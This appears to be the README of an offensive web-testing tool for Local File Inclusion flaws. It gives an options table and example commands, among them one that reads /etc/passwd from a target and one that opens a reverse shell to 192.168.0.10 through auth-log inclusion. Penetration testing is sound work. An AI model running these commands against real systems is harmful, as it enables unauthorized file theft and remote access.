 # README.md for LFI Hunter

## Overview

**LFI Hunter** is a command-line tool for testing and exploiting Local File Inclusion (LFI) vulnerabilities in web applications. This tool is designed to assist ethical hackers and security researchers in assessing web application security by exploiting file inclusion vulnerabilities in a controlled environment.

## Features

- **Command-line Interface**: User-friendly interface with various options.
- **Authentication Support**: Test areas requiring login credentials.
- **File Reading**: Attempt to read sensitive files from the target machine.
- **Parameter Fuzzing**: Test for injection vulnerabilities.
- **Reverse Shell Setup**: Establish a reverse shell connection for deeper access.

## Installation

To use LFI Hunter, clone the repository from GitHub:

```bash
git clone https://github.com/jac11/LFI_Hunter.git
cd LFI_Hunter
```

## Usage

The basic syntax for running LFI Hunter is:

```bash
LFI_Hunter [OPTIONS]
```

### Options

| Option                  | Description                                                                                     |
|-------------------------|-------------------------------------------------------------------------------------------------|
| `-h`, `--help`          | Show help message and exit.                                                                    |
| `--man`                 | Show the man page.                                                                             |
| `-UV`, `--Vulnurl`      | Target URL for the vulnerable web application.                                                 |
| `--auth`                | Enable authentication mode.                                                                    |
| `-F`, `--filelist`      | Read from an LFI wordlist file.                                                                |
| `-C`, `--Cookie`        | Provide the login session cookie.                                                              |
| `-B`, `--base64`        | Enable decoding of base64-filtered PHP code.                                                   |
| `-R`, `--read`          | Specify a file to read from the target machine.                                                |
| `-UF`, `--UserForm`     | Specify the HTML login form username field.                                                    |
| `-PF`, `--PassForm`     | Specify the HTML login form password field.                                                    |
| `-P`, `--password`      | Specify a password for login attempts.                                                         |
| `-p`, `--readpass`      | Read a password from a file.                                                                   |
| `-LU`, `--loginurl`     | Provide the login URL for authentication mode.                                                 |
| `-U`, `--user`          | Specify a username for login attempts.                                                         |
| `-u`, `--readuser`      | Read a username from a specified file.                                                         |
| `-A`, `--Aggressiv`     | Enable aggressive mode to increase request speed.                                              |
| `-S`, `--shell`         | Set up a reverse shell connection to a specified IP address.                                   |
| `--port PORT`           | Set the port for netcat or reverse shell connections.                                          |
| `-Z`, `--fuzzing`       | Enable brute-force or fuzzing mode for parameter testing.                                      |
| `--config FILE`         | Use a configuration file with predefined options.                                              |

### Examples

1. **Basic URL Scan with Authentication**:
   ```bash
   LFI_Hunter -UV http://example.com/vulnerable_path?file= -C session_cookie.txt --auth -A -LU http://example.com/login.php -U admin -P password
   ```

2. **Use Base64 Decoding**:
   ```bash
   LFI_Hunter -UV http://example.com/vulnerable_path?file= -C session_cookie.txt -B -Z
   ```

3. **Read /etc/passwd File**:
   ```bash
   LFI_Hunter -UV http://example.com/vulnerable_path?file= -C session_cookie.txt -R /etc/passwd
   ```

4. **Setup Reverse Shell**:
   ```bash
   LFI_Hunter -UV http://example.com/vulnerable_path?file= -C session_cookie.txt -R /var/log/auth.log -S 192.168.0.10 --port 5555
   ```

## Files

- **config.txt**: Configuration file storing default options, useful for automation.
- **lfi_wordlist.txt**: Wordlist for common paths and filenames.
- **fuzz_params.txt**: Wordlist for parameter fuzzing.

## Author

Developed by jac11. For issues or contributions, visit the [GitHub repository](https://github.com/jac11/LFI_Hunter).

## License

LFI Hunter is licensed for user use only, with no permission to modify any source code.

## Man Page Access

To access the man page with detailed information about usage and options, run:

```bash
./ LFI_Hunter.py --man
```

This will display all relevant information in a paginated format using the terminal's built-in capabilities.

---


